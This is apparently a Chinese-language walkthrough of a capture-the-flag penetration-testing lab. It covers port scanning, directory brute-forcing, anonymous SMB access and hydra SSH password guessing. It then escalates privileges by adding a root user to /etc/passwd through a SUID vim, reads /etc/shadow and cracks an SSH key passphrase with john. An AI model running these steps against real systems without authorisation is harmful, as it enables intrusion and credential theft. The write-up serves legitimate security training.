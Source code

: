 # 基本渗透测试room

    在这些任务集中，您将了解以下内容：

    暴力破解
    哈希破解
    服务枚举
    Linux 枚举

这里的主要目标是尽可能多地学习。确保您使用OpenVPN配置文件连接到我们的网络。

部署机器并连接到我们的网络
查找计算机公开的服务

按照上面这句话，我们先使用nmap简单扫一圈

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nmap</font> <font color="#9755B3">-sS</font> 10.10.135.111
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-07 18:17 CST
Nmap scan report for 10.10.135.111 (10.10.135.111)
Host is up (0.23s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 3.07 seconds
</pre>

访问80端口的web，好像没东西，到8080端口看一下，有网页

#### 1.Web服务器上隐藏目录的名称是什么（输入不带/的名称）？

用gobuster和ffuf对着8080端口一顿扫，扫了两个多小时，字典换了好几个，都没扫出来。

突然想起来还有个80端口，然后换80端口，一下就扫出来了

    gobuster dir --url http://10.10.41.41:80/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

/development

是的,ip变了，扫到靶机都到期自动关机了

#### 2.用户名是什么？

提示我们smb找，尝试匿名用户登录smb

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">smbclient</font> //10.10.41.41/Anonymous    
Password for [WORKGROUP\root]:
Try &quot;help&quot; to get a list of possible commands.
smb: \&gt; ls
  .                                   D        0  Fri Apr 20 01:31:20 2018
  ..                                  D        0  Fri Apr 20 01:13:06 2018
  staff.txt                           N      173  Fri Apr 20 01:29:55 2018

</pre>

将staff.txt 下载，打开（翻译）：

    向员工发布的公告：

    请不要将与工作无关的项目上传到此共享。我知道这一切都很有趣，但是
    错误就是这样发生的。（这也意味着你，jan！

    -凯

用户名为 jan, 然后用hydra爆jan的ssh密码

    hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.41.41 ssh -t 36

<pre>[<font color="#47D4B9"><b>22</b></font>][<font color="#47D4B9"><b>ssh</b></font>] host: <font color="#47D4B9"><b>10.10.31.12</b></font>   login: <font color="#47D4B9"><b>jan</b></font>   password: <font color="#47D4B9"><b>armando</b></font>
</pre>

是的，ip又变了，爆一半靶机关机了，爆破是最无聊的攻击


###############################

通过jan和爆破出来的密码，登录ssh

平平无奇的信息收集:

    uname -a
    sudo -l看看有没有什么命令有价值

    find / -type f -perm 04000 2>/dev/null查找具有suid的文件

可以看到vim具有suid，vim可以读写文件，因此，我们可以利用其suid，越权读写文件

直接 vim /etc/passwd，手动添加用户

先通过openssl passwd创建加盐hash密码：

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">openssl</font> <u style="text-decoration-style:single">passwd</u> <font color="#9755B3">-1</font> <font color="#9755B3">-salt</font> hack 1q2w3e4r                                  12 <font color="#EC0101"><b>⨯</b></font>
$1$hack$eu7wA.3faDMt9Z2srODT9/
</pre>

然后vim编辑/etc/passwd

<pre><font color="#05A1F7"><b>root</b></font>:<font color="#FFD7D7">x</font>:<font color="#962AC3">0</font>:<font color="#962AC3">0</font>:<font color="#05A1F7">root</font>:<font color="#87FFAF">/root</font>:<font color="#FF8A18">/bin/bash</font>
<font color="#05A1F7"><b>sugo</b></font>:<font color="#962AC3">$1$hack$eu7wA.3faDMt9Z2srODT9/</font>:<font color="#962AC3">0</font>:<font color="#962AC3">0</font>:<font color="#05A1F7">root</font>:<font color="#87FFAF">/root</font>:<font color="#FF8A18">/bin/bash</font>

:wq!
</pre>

照着root抄即可

<pre>jan@basic2:/usr/bin$ su sugo
Password: 
root@basic2:/usr/bin# whoami
root
</pre>

提权后，回去看一下任务，问的是密码，但是透过回答框的一堆*号，我打算看一下kay的home:

    发现pass.bak打开看一下，拿去提交，pass

<pre>root@basic2:/# ls -la /home/kay
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 <font color="#277FFF"><b>.</b></font>
drwxr-xr-x 4 root root 4096 Apr 19  2018 <font color="#277FFF"><b>..</b></font>
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 <font color="#277FFF"><b>.cache</b></font>
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 <font color="#277FFF"><b>.nano</b></font>
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Dec 10 07:04 <font color="#277FFF"><b>.ssh</b></font>
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
root@basic2:/# cat /home/kay/pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
</pre>


### 花絮

由于浏览器使用了微软翻译，导致回答框缺失了大部分星号，没能判断到上述，以为问的是kay的原密码:::


我们通过vim读取/etc/shadow,在攻击机利用unshadow合并然后利用john尝试爆破：


rockyou爆了半天发现还没爆完，估计行不通。

回到room看提示：

    除了密码，用户还可以访问计算机？

由于是英语翻译的，我第一时间没反应过来，其实意思就是kay用户可以使用ssh登录

根据这个线索我们回到我们刚刚获得的root shell 看看能不能找到ssh的公私钥

果不其然：

<pre>root@basic2:/home/jan# find / -type f -name *rsa* 2&gt;/dev/null
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
...
</pre>

将私钥通过ssh2john转hash，再用john爆出密码：

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh2john</font> <u style="text-decoration-style:single">./kay_rsa</u> <font color="#277FFF"><b>&gt;</b></font> ./hash
                                                                                
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">john</font> <font color="#9755B3">--wordlist=/usr/share/wordlists/rockyou.txt</font> <u style="text-decoration-style:single">./hash</u>   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press &apos;q&apos; or Ctrl-C to abort, almost any other key for status
<font color="#FEA44C">beeswax</font>          (<font color="#FEA44C">./kay_rsa</font>)     
</pre>

提交，答案错误，我tm
